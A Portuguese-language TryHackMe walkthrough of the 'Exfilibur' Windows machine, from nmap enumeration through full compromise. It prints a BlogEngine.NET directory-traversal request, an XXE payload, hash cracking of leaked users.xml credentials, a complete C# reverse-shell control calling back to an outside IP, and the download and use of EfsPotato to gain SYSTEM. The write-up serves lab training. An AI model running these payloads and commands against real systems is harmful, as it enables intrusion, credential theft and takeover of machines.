

> [!Informações]
> [!Informações]
> - O IP da máquina foi adicionado ao `/etc/hosts` com a URL `http://exfilibur.thm/`
> - Período: 21/05/2025 a 24/05/2025
> - Máquina do `TryHackMe` de Nível Difícil
> - Sistema Operacional: Windows

# Sumário
1. [[#Enumeração]]
	1. [[#NMap]]
	2. [[#Procurando por diretórios válidos]]
	3. [[#Primeiros passos na aplicação]]
		1. [[#Wappalyzer]]
		2. [[#Burp Suite]]
2. [[#Exploração]]
	1. [[#`BlogEngine.NET` 3.3.7.0 Permitindo Directory Transversal]]
		1. [[#Listando os diretórios com a vulnerabilidade]]
	2. [[#BlogEngine 3.3 - XML External Entity Injection]]
		1. [[#Payload do XXE]]
		2. [[#Usando a Payload]]
		3. [[#Exfiltrando o arquivo `users.xml`]]
			1. [[#Primeira Tentativa]]
			2. [[#Segunda Tentativa]]
		4. [[#`Base64`, `xxd`, decodificando a string para convertê-la em hash.]]
			1. [[#Explicação (Parte por Parte)]]
		5. [[#Quebrando as hashes]]
			1. [[#Reconhecendo a HASH]]
			2. [[#Quebrando e Obtendo a senha]]
	3. [[#Autenticando com o usuário `guest`]]
	4. [[#Obtendo a reverse shell]]
		1. [[#Payload da Reverse Shell]]
		2. [[#Analisando upload de arquivos]]
			1. [[#O que está acontecendo?]]
			2. [[#Como que funciona esse `RCE`]]
3. [[#Pós-Exploração]]
	1. [[#Acessando o usuário `kingarthy`]]
4. [[#Escalação de Privilégio (PrivEsc)]]
	1. [[#Exploits Conhecidos]]
	2. [[#Usando o `EfsPotato`]]
----
# Enumeração

## NMap

```
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: 403 - Forbidden: Access is denied.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EXFILIBUR
| Not valid before: 2025-05-20T17:24:43
|_Not valid after:  2025-11-19T17:24:43
| rdp-ntlm-info: 
|   Target_Name: EXFILIBUR
|   NetBIOS_Domain_Name: EXFILIBUR
|   NetBIOS_Computer_Name: EXFILIBUR
|   DNS_Domain_Name: EXFILIBUR
|   DNS_Computer_Name: EXFILIBUR
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-21T17:34:16+00:00
|_ssl-date: 2025-05-21T17:34:24+00:00; 0s from scanner time.
```

## Procurando por diretórios válidos


Opa, foi encontrado um diretório chamado `/blog`, até porque o diretório raiz não estava funcionando.
## Primeiros passos na aplicação
### Wappalyzer

Verificando o `Wappalyzer` para identificar as tecnologias presentes.


### Burp Suite
Ao percorrer a aplicação para fazermos uma listagem manual de diretórios, o que pode ser mais útil.


Mexendo por todos os diretórios eu acabei encontrando a Engine e a versão em `/blog/apml.axd`. A partir daí eu vou buscar alguns exploits (se existir) na Web para poder ver meios de exploração


---

# Exploração
## `BlogEngine.NET` 3.3.7.0 Permitindo Directory Transversal

"BlogEngine.NET 3.3.7.0 allows /api/filemanager Directory Traversal via the path parameter."


Exploitando o parâmetro `path`, consegui navegar pelos diretórios e listar essas duas pastas: `aspnet_client` e `blog`.

`http://exfilibur.thm/blog/api/filemanager?path=../../../../`


### Listando os diretórios com a vulnerabilidade

Fazendo uma listagem de todos os diretórios e arquivos dentro da pasta raiz `/blog/`.

(Essa listagem foi obtido por meio do navegador e ajustado manualmente)
```
[Directory] ~/App_Data/files../../../../blog
[Directory] ~/App_Data/files../../../../blog/Account
[Directory] ~/App_Data/files../../../../blog/admin
[Directory] ~/App_Data/files../../../../blog/AppCode
[Directory] ~/App_Data/files../../../../blog/App_Data
[Directory] ~/App_Data/files../../../../blog/App_GlobalResources
[Directory] ~/App_Data/files../../../../blog/aspnet_client
[Directory] ~/App_Data/files../../../../blog/bin
[Directory] ~/App_Data/files../../../../blog/Content
[Directory] ~/App_Data/files../../../../blog/Custom
[Directory] ~/App_Data/files../../../../blog/font
[Directory] ~/App_Data/files../../../../blog/Scripts
[Directory] ~/App_Data/files../../../../blog/setup
```

```
[File] ../../../../blog/archive.aspx
[File] ../../../../blog/contact.aspx
[File] ../../../../blog/default.aspx
[File] ../../../../blog/error.aspx
[File] ../../../../blog/error404.aspx
[File] ../../../../blog/FrontPageExample.aspx
[File] ../../../../blog/Global.asax 
[File] ../../../../blog/packages.config
[File] ../../../../blog/page.aspx
[File] ../../../../blog/post.aspx
[File] ../../../../blog/robots.txt
[File] ../../../../blog/search.aspx
[File] ../../../../blog/Web.config 
[File] ../../../../blog/Web.sitemap
[File] ../../../../blog/wlwmanifest.xml
```


`curl -s "http://exfilibur.thm/blog/api/filemanager?path=../../../../blog/Account" | jq -r '.[] | "\(.FileType)\t\(.FullPath)"'`

```
0	~/App_Data/files../../../../blog
1	../../../../blog/Account/account.css
1	../../../../blog/Account/account.js
1	../../../../blog/Account/account.master
1	../../../../blog/Account/change-password-success.aspx
1	../../../../blog/Account/change-password.aspx
1	../../../../blog/Account/create-blog.aspx
1	../../../../blog/Account/login.aspx
1	../../../../blog/Account/Logout.cshtml
1	../../../../blog/Account/password-retrieval.aspx
1	../../../../blog/Account/register.aspx
1	../../../../blog/Account/Web.Config
```


`curl -s "http://exfilibur.thm/blog/api/filemanager?path=../../../../blog/App_data" | jq -r '.[] | "\(.FileType)\t\(.FullPath)"'`

```
0	~/App_Data/files../../../../blog
.
.
.
1	../../../../blog/App_data/settings.xml
1	../../../../blog/App_data/users.xml
```

O arquivo `users.xml` me despertou curiosidade. Fui procurar algum exploit `XXE` que eu pudesse explorar.

## BlogEngine 3.3 - XML External Entity Injection

### Payload do XXE
```
Url: http://websiteurl-blogengine3.3/metaweblog.axd
Parameter Name: BodyXML
Parameter Type: POST
Attack Pattern: <?xml version="1.0"?><!DOCTYPE ns [<!ELEMENT ns ANY><!ENTITY lfi SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">]><ns>&lfi;</ns>
```


`w3m http://exfilibur.thm/blog/metaweblog.axd`


### Usando a Payload

Bem, agora é apenas fazer a requisição como mostrado na payload anteriormente e comprovar que há uma vulnerabilidade de LFI.



### Exfiltrando o arquivo `users.xml`
#### Primeira Tentativa
Procurando pelo arquivo `users.xml`, tive este retorno.
`...file:///C:/inetpub/wwwroot/blog/App_Data/users.xml"...`


```
<value>
Unknown Method. (AdminwobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=post@example.com2007-12-05 20:46:40guesthJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=guest@email.com2023-08-12 08:47:51)
</value>
```

#### Segunda Tentativa
Tentei exfiltrar o `users.xml` pela falha de XXE, mas não tive muito êxito. Então, procurando, acabei encontrando uma payload que resolve isso.

```
<Users>
  <User>
    <UserName>Admin</UserName>
    <Password>wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=</Password>
    <Email>post@example.com</Email>
    <LastLoginTime>2007-12-05 20:46:40</LastLoginTime>
  </User>
  <!--
<User>
    <UserName>merlin</UserName>
    <Password></Password>
    <Email>mark@email.com</Email>
    <LastLoginTime>2023-08-11 10:58:51</LastLoginTime>
  </User>
-->
  <User>
    <UserName>guest</UserName>
    <Password>hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=</Password>
    <Email>guest@email.com</Email>
    <LastLoginTime>2023-08-12 08:47:51</LastLoginTime>
  </User>
</Users>
```

### `Base64`, `xxd`, decodificando a string para convertê-la em hash.

**String** -> **Hash**

`echo "wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0=" | base64 -d | xxd -p -c 32` -> `c286d2fc0bca14f4f9a8ff45810ca1ec2fa473e93ed6b0736ce7fb3b17e9b70d`

`echo "hJg8YPfarcHLhphiH4AsDZ+aPDwpXIEHSPsEgRXBhuw=" | base64 -d | xxd -p -c 32` ->
`84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec`

#### Explicação (Parte por Parte)


`echo "wobS/AvKFPT5qP9FgQyh7C+kc+k+1rBzbOf7Oxfptw0="` -> **Input original.** Essa é a string extraída da aplicação, e percebe-se que ela tem características de uma codificação em Base64, possivelmente representando um **hash** (como SHA-1 com salt).

**Porque?**
É relativamente fácil identificar uma string em Base64, e ao decodificá-la com `base64 -d`, o resultado é algo como: "��<<)\�H�����". 
Pode parecer que algo deu errado — mas, tecnicamente, **isso está certo**. Esse comportamento indica que o resultado é um **blob binário**, ou seja, uma sequência de bytes brutos.

Esse tipo de conteúdo pode representar:
- Uma **hash** (SHA-1, SHA-256 etc.)
- Um **valor criptografado**
- Uma **senha com salt embutido**

**E daí vem a última parte do comando**

Essa parte converte os bytes binários em hexadecimal puro (flat), usando:
- `-p`: gera um hexdump simples (sem offsets nem ASCII lateral)
- `-c 32`: organiza a saída com 32 caracteres por linha (apenas visual)

O `xxd` é usado para **visualizar o conteúdo real** dos bytes em um formato legível — essencial para análise forense, comparação de hashes ou tentativa de reconhecimento do tipo de dado.

### Quebrando as hashes

#### Reconhecendo a HASH


**Esse site indica que há uma chance de ser `SHA256`. Isso abre o leque para algumas opções:**
- **`sha2-224`** → Poderia até ser, mas o tamanho da hash não é compatível.
- ==**`sha2-256`**== → ==Forte candidata, pois tudo parece se encaixar.==
- **`sha256`** → Também é uma forte candidata, porém o fato de, necessariamente, precisar de um `$salt` torna plausível que **não seja essa** a escolhida.

#### Quebrando e Obtendo a senha
`hashcat -m 1400 hashes.txt /home/arthur-strelow/SecLists/Passwords/Leaked-Databases/rockyou.txt`

O arquivo `hashes.txt` contém as duas hashes obtidas e decodificadas anteriormente.

> [!Primeira credencial]
> 84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec:guest

## Autenticando com o usuário `guest`

Comecei procurar por páginas que apenas usuários autenticados teriam acesso e acabei encontrando uma página que ainda estava sendo escrita. E havia uma senha administrativa.


> [!Senha do "admin"]
> Excal1burP@ss1337

## Obtendo a reverse shell

### Payload da Reverse Shell
Encontrei uma payload de reverse shell que será utilizada para obter acesso remoto à máquina.

```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("110.13.72.32", 445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

Agora é o momento de analisar a criação e edição de páginas utilizando o Burp Suite.

### Analisando upload de arquivos

**Encontrando o File Manager da Aplicação**


#### O que está acontecendo?
Enviei um arquivo chamado `PostView.ascx` (payload) e, ao fazer isso, observei como o envio de arquivos estava funcionando. Nesse momento, a payload foi carregada na aplicação — restando apenas sua execução.


Foi realizada uma tentativa de acesso direto via URL (`http://exfilibur.thm/blog/App_Data/files/PostView.ascx`), porém sem sucesso.


#### Como que funciona esse `RCE`


O BlogEngine.NET, ao aplicar um **tema personalizado via parâmetro `theme`**, **espera automaticamente encontrar um arquivo chamado `PostView.ascx` (arquivo com payload criado) dentro do diretório informado**.

---

# Pós-Exploração

Ao listar as permissões do usuário merlin, obtivemos as seguintes informações:
```
c:\Users\merlin>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

`SeImpersonatePrivilege` é um dos privilégios mais perigosos que um usuário pode possuir. Com ele, é possível realizar ataques de _token impersonation_ e, dependendo do contexto, escalar privilégios até o nível SYSTEM.

## Acessando o usuário `kingarthy`


Listamos os usuários presentes no sistema. Relembrando as etapas anteriores, o Nmap identificou a porta 3389 aberta (RDP), e já havíamos obtido uma senha anteriormente. Com isso, utilizei o Remmina para me conectar via RDP com sucesso.


----

# Escalação de Privilégio (PrivEsc)

## Exploits Conhecidos
**Existem diversos métodos para explorar o privilégio `SeImpersonatePrivilege`, como por exemplo:**
- **EfsPotato** _(será o utilizado neste caso)_
- **RoguePotato**
- **PrintSpoofer**
- **SharpEfsPotato**
- **GodPotato**"

## Usando o `EfsPotato`
**Como apenas as portas 53 e 445 estavam acessíveis, optei por usar o exploit `EfsPotato`** (disponível em: `https://raw.githubusercontent.com/zcgonvh/EfsPotato/refs/heads/master/EfsPotato.cs`).  
A seguir, executei os seguintes passos para iniciar o servidor, transferir, compilar e executar o exploit:

1. Iniciei um servidor HTTP na porta 445 usando Python:
	1. `python3 -m http.server 445`
2. No host Windows comprometido, utilizei o `curl` para baixar o código-fonte do exploit:
	1. `curl http://10.13.72.32:445/EfsPotato -o eff.cs`
3. Compilei o código em C# utilizando o compilador do .NET Framework:
	1. `C:\Windows\Microsoft.Net\Framework\v3.5\csc.exe eff.cs -nowarn:1691,618`
		1. `csc.exe` -> É o compilador C# da Microsoft
		2. `-nowarn:1691,618` -> Suprime os avisos de compilação com os códigos 1691 e 618
4. Após a compilação, executei o binário passando o comando `whoami` como teste e a execução foi bem-sucedida.

```
c:\Windows\Temp>eff.exe whoami
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]
[+] Current user: EXFILIBUR\merlin
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=68d1c0)
[+] Get Token: 932
[!] process with pid: 5572 created.
==============================
nt authority\system
```


**Como o exploit funcionou corretamente e o comando `whoami` retornou `NT AUTHORITY\SYSTEM`, confirmei que a execução estava sendo feita com privilégios máximos.**  
Com isso, como `SYSTEM` pertence ao grupo de administradores locais, foi possível criar um novo usuário e adicioná-lo ao grupo de administradores. Essa etapa foi necessária para viabilizar o acesso via RDP.

Após a criação da conta, realizei a conexão RDP com sucesso.

```
eff.exe "net user administrator Password123#"
c:\Windows\Temp>eff.exe "net user administrator Password123#"
Exploit for EfsPotato(MS-EFSR EfsRpcEncryptFileSrv with SeImpersonatePrivilege local privalege escalation vulnerability).
Part of GMH's fuck Tools, Code By zcgonvh.
CVE-2021-36942 patch bypass (EfsRpcEncryptFileSrv method) + alternative pipes support by Pablo Martinez (@xassiz) [www.blackarrow.net]
[+] Current user: EXFILIBUR\merlin
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=13ec7f0)
[+] Get Token: 932
[!] process with pid: 4720 created.
==============================
The command completed successfully.
```

Após executar a conexão via RDP, confirmei que o acesso foi bem-sucedido e obtive privilégios administrativos na conta criada, validando que a exploração foi concluída com sucesso.


